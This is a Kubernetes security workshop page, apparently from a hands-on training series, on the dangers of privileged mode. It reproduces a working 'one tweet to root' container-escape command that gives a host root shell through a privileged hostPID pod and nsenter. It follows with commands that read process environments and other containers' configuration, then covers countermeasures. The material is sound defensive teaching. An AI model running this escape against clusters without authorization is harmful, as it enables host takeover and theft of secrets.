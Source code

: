 +++
categories = []
date = "2020-02-22"
description = ""
slug = ""
tags = []
title = "Avoid privileged mode"
draft = false
toc = true
weight = 65
+++

### Introduction
In this exercise, we cover:

 - What `--privileged` mode does
 - The crazy things it allows
 - How you might be able to replace it

### Setup
We'll exec directly into a container in this example.

This example is based on Ian Coldwater and Duffie Cooley's example from [Black Hat USA 2019](https://github.com/mauilion/blackhat-2019).

As a preliminary step, we'll deploy nginx and then spy on it later.
_(Note: If needed, adjust the replica count to match the number of nodes in your cluster.)_

```
export NODE_COUNT="$(kubectl get nodes --no-headers | wc -l)"
kubectl create deployment nginx --image=nginx:stable
kubectl scale deployment nginx --replicas $NODE_COUNT
kubectl get pods -w
```

To start, we'll use [Duffie Cooley's "one tweet to root"](https://twitter.com/mauilion/status/1129468485480751104)—it takes less than 280 characters!

{{< tweet 1129468485480751104 >}}
```
kubectl run r00t --restart=Never -ti --rm --image lol --overrides '{"spec":{"hostPID": true, "containers":[{"name":"1","image":"alpine","command":["nsenter","--mount=/proc/1/ns/mnt","--","/bin/bash"],"stdin": true,"tty":true,"securityContext":{"privileged":true}}]}}'
```

Here's that same spec, pretty-printed:
```json
{
  "spec": {
    "hostPID": true,
    "containers": [
      {
        "name": "1",
        "image": "alpine",
        "command": [
          "nsenter",
          "--mount=/proc/1/ns/mnt",
          "--",
          "/bin/bash"
        ],
        "stdin": true,
        "tty": true,
        "securityContext": {
          "privileged": true
        }
      }
    ]
  }
}
```

You'll notice:

 - `"hostPID": true` — The container is entering the host's process (PID) namespace
 - `"privileged": true` — The container is running in `--privileged` mode
 - `"stdin": true, "tty": true` — We'll attach a terminal to the running container when it starts
 - `"command"` — It's going to start out using `nsenter` to go into the **host**'s PID 1 (first process)

### "Attack"
Once we are in this shell, we can do some fun stuff to explore the host and learn about other processes and containers.

```
ls /proc/*/environ

pgrep -a nginx
(nsenter -n -t $(pgrep nginx | head -n1) ss -ln)
(nsenter -m -t $(pgrep nginx | head -n1) cat /etc/nginx/nginx.conf)

(nsenter -m -t 1 cat /etc/resolv.conf)
```

Can you think of anything else you'd want to do to the host while we're here?

Hit `Ctrl-D` to exit the pod when you're done.

### Countermeasure
Avoid `--privileged` mode and `hostPID` unless super necessary.

Consider applying admission control (using a dynamic admission controller or a `PodSecurityPolicy`) to block privileged containers by default.

### Attack effects after patching

Let's start just changing `hostPID: false`.

```
kubectl run r00t --restart=Never -ti --rm --image lol --overrides '{"spec":{ "containers":[{"name":"1","image":"alpine","command":["nsenter","--mount=/proc/1/ns/mnt","--","/bin/bash"],"stdin": true,"tty":true,"securityContext":{"privileged":true}}]}}'
```

We can also try with `privileged: false`:
```
kubectl run r00t --restart=Never -ti --rm --image lol --overrides '{"spec":{"hostPID": true, "containers":[{"name":"1","image":"alpine","command":["nsenter","--mount=/proc/1/ns/mnt","--","/bin/bash"],"stdin": true,"tty":true}]}}'
```

Note that both fail to start because either:
* we lack `/bin/bash` (a side-effect of staying in our Alpine container's `pid 1` instead of the host's), or
* we can't actually mount the process's mount (a side-effect of not being `--privileged`).

### How to use it yourself
Use the capabilities setting in the `securityContext` rather than privileged mode, if you can.
There are limited circumstances where you can and can't do this, which are hard to enumerate.

To know what caps you need, consider [`capable`](http://www.brendangregg.com/blog/2016-10-01/linux-bcc-security-capabilities.html) or a similar tool.

Remember that all of these changes should go through CI and testing, like any code change.
You need to be sure all of your important flows are exercised if you want to have confidence in this change.

### "Advertisement"
Watch Maya and Frenchie's BSidesSF talk about privileged containers:

{{< youtube 5VgSFRyI38w >}}

### Next up
We'll cover resource limits in the next exercise:

[**Set resource limits**](../80-limits)
